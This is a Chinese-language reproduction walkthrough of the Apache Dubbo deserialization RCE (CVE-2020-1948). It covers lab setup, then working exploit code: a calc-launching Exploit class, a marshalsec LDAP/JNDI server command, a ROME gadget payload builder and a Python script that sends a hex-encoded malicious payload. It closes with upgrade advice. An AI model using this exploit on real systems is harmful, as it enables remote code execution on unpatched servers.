










# Apache Dubbo Provider默认反序列漏洞（CVE-2020-1948）

## 0x01 搭建漏洞环境

*漏洞介绍*

2020年06月23日， 360CERT监测发现`Apache Dubbo 官方`发布了`Apache Dubbo 远程代码执行`的风险通告，该漏洞编号为`CVE-2020-1948`，漏洞等级：`高危`。

`Apache Dubbo`是一款高性能、轻量级的开源Java RPC框架，它提供了三大核心能力：面向接口的远程方法调用，智能容错和负载均衡，以及服务自动注册和发现。

`Apache Dubbo Provider`存在`反序列化漏洞`，攻击者可以通过RPC请求发送无法识别的服务名称或方法名称以及一些恶意参数有效载荷，当恶意参数被反序列化时，可以造成远程代码执行。

*影响版本*

- Dubbo 2.7.0 - 2.7.6
- Dubbo 2.6.0 - 2.6.7
- Dubbo 2.5.x （官方不再维护）


*复现环境*

- windows 10
- Dubbo 2.7.6
- JDK1.8.121

**注：JDK1.8.251 复现失败**

下载2.7.6版本的`dubbo Provider`

下载地址：https://github.com/apache/dubbo-spring-boot-project/tree/35568ff32d3a0fcbbd6b3e14a9f7c0a71b6b08ee

解压导入IDEA




修改`dubbo-spring-boot-samples/auto-configure-samples/provider-sample/pom.xml`

加入依赖
```
<dependency>
    <groupId>com.rometools</groupId>
    <artifactId>rome</artifactId>
    <version>1.7.0</version>
    <scope>compile</scope>
</dependency>
```
刷新一下Maven

启动Provider



漏洞环境搭建好了

## 0x02 漏洞复现

我们首先用python起http服务放入EXP

```
python2 -m SimpleHTTPServer
```

`Exploit.java`文件内容

```
public class Exploit {

    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

再利用marshalsec转发，创建一个ldap服务器。

 ```
 java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 8087
 ```
 


修改`dubbo-spring-boot-samples/auto-configure-samples/consumer-sample/pom.xml`

加入依赖：
```
<dependency>
    <groupId>com.rometools</groupId>
    <artifactId>rome</artifactId>
    <version>1.7.0</version>
    <scope>compile</scope>
</dependency>
```

同时导入`marshalsec-0.0.3-SNAPSHOT-all.jar`




修改`DubboAutoConfigurationConsumerBootstrap`文件

```
private static Object getPayload() throws Exception {
        String jndiUrl = "ldap://127.0.0.1:8087/Exploit";

        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, JDKUtil.makeJNDIRowSet(jndiUrl));
        EqualsBean root = new EqualsBean(ToStringBean.class,item);

        return JDKUtil.makeMap(root,root);
    }

    @Bean
    public ApplicationRunner runner() throws Exception {
        Object o = getPayload();
        return args -> logger.info(demoService.commonTest(o));
    }
```



在idea里用`ALT`+`ENTER`，把缺的包引入。

需要在`DemoService.java`加入：

```
String commonTest(Object o);
```



还要在`DefaultDemoService.java`加入：

```
@Override
public String commonTest(Object o) {
    return null;
}
```



利用`wireshark`抓包。

运行`DubboAutoConfigurationConsumerBootstrap.java`


弹出计算器，查看`wireshark`，获取payload。






构造exp
```
import socket
import time
import re

def sendEvilObjData(sock):  
    payload="dabbc2000000000000000000000003b705322e302e3230366f72672e6170616368652e647562626f2e737072696e672e626f6f742e64656d6f2e636f6e73756d65722e44656d6f5365727669636505312e302e300a636f6d6d6f6e54657374124c6a6176612f6c616e672f4f626a6563743b48433027636f6d2e726f6d65746f6f6c732e726f6d652e666565642e696d706c2e457175616c734265616e92036f626a096265616e436c61737360433029636f6d2e726f6d65746f6f6c732e726f6d652e666565642e696d706c2e546f537472696e674265616e92036f626a096265616e436c61737361431d636f6d2e73756e2e726f777365742e4a646263526f77536574496d706cac06706172616d73096c697374656e657273036d61700a6368617253747265616d0b617363696953747265616d0d756e69636f646553747265616d0c62696e61727953747265616d0f7374724d61746368436f6c756d6e730d694d61746368436f6c756d6e73057265734d4406726f77734d4402727302707304636f6e6e09666574636853697a650866657463684469720969736f6c6174696f6e1065736361706550726f63657373696e6708726561644f6e6c790b636f6e63757272656e63790c6d61784669656c6453697a65076d6178526f77730c717565727954696d656f75740b73686f7744656c657465640a726f77536574547970650a64617461536f757263650355524c07636f6d6d616e64624d136a6176612e7574696c2e486173687461626c655a4e4e4e4e4e4e56106a6176612e7574696c2e566563746f729a03666f6f4e4e4e4e4e4e4e4e4e56919a8f8f8f8f8f8f8f8f8f8f4e4e4e4e4e90cbe8925454cbf090909046cbec1d6c6461703a2f2f3132372e302e302e313a383038372f4578706c6f69744e4e430f6a6176612e6c616e672e436c61737391046e616d65631d636f6d2e73756e2e726f777365742e4a646263526f77536574496d706c633029636f6d2e726f6d65746f6f6c732e726f6d652e666565642e696d706c2e546f537472696e674265616e5191519151915a48047061746830366f72672e6170616368652e647562626f2e737072696e672e626f6f742e64656d6f2e636f6e73756d65722e44656d6f536572766963651272656d6f74652e6170706c69636174696f6e3024647562626f2d6175746f2d636f6e6669677572652d636f6e73756d65722d73616d706c6509696e7465726661636530366f72672e6170616368652e647562626f2e737072696e672e626f6f742e64656d6f2e636f6e73756d65722e44656d6f536572766963650776657273696f6e05312e302e305a"

    sock.send(payload.decode('hex'))
def run(dip,dport):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_addr = (dip, dport)
    sock.connect(server_addr)
    sendEvilObjData(sock)

run("127.0.0.1",12345)

```

运行



复现成功

## 0x03 修复建议

升级到2.7.7或更高版本，下载地址为：
https://github.com/apache/dubbo/releases/tag/dubbo-2.7.7

## 参考链接

https://www.mail-archive.com/dev@dubbo.apache.org/msg06544.html